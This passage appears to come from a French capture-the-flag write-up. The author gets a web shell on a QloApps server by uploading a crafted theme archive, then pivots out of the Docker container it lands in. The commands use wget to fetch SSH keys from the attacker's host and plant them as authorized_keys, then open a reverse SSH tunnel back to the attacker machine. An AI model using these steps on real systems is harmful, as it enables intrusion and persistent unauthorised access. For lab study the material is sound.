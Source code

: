 Une fois notre *new\_theme.zip* uploadé via l'interface de gestion des thèmes on obtient notre shell à l'adresse */themes/yolo/index.php* qui nous renseigne par exemple sur notre utilisateur actuel :  

```plain
uid=1000(qloapps) gid=1000(qloapps) groups=1000(qloapps)
```

Un petit *ipconfig*, c'est là qu'il faut avoir les yeux en face des trous :  

```plain
eth0: flags=4163  mtu 1500
        inet 192.168.0.100  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:42:c0:a8:00:64  txqueuelen 0  (Ethernet)
        RX packets 3462362  bytes 310799606 (310.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3385714  bytes 4264715673 (4.2 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 6613  bytes 504600 (504.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6613  bytes 504600 (504.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Oui, on est encore sur un autre réseau ! On remarque aussi la présence d'un fichier .dockerenv à la racine du disque.  

Un client SSH et le monde vous appartient
-----------------------------------------

A ce stade un petit PTY serait le bienvenue mais comme vu au début aucun SSH n'est exposé. Il y a pourtant sur le container Docker actuel un serveur SSH qui ne demande que nous.  

On va effectuer un remote forwarding du service SSH local qui sera ensuite accessible sur le port 2222 de notre machine.  

Première étape, j'ai créé en local un jeu de clés sans passphrase :  

```bash
$ ssh-keygen -b 2048 -t rsa -f ctf_key -q -N ""
```

Sur le Docker je les rappatrie via Wget au bon emplacement :  

```bash
wget http://192.168.56.1:8000/ctf_key -O /home/qloapps/.ssh/id_rsa
wget http://192.168.56.1:8000/ctf_key.pub -O /home/qloapps/.ssh/id_rsa.pub
cp /home/qloapps/.ssh/id_rsa.pub /home/qloapps/.ssh/authorized_keys
```

J'ajoute aussi cette clé publique dans mon *authorized\_keys* local. L'absence de passphrase est primordial vu que à ce stade je ne dispose pas de PTY et ne pourrait donc pas saisir de mot de passe.  

Finalement je remote-forwarde le port (sur le Docker) :  

```bash
$ ssh -N -o "StrictHostKeyChecking no" -R 2222:localhost:22 devloop@192.168.56.1
```
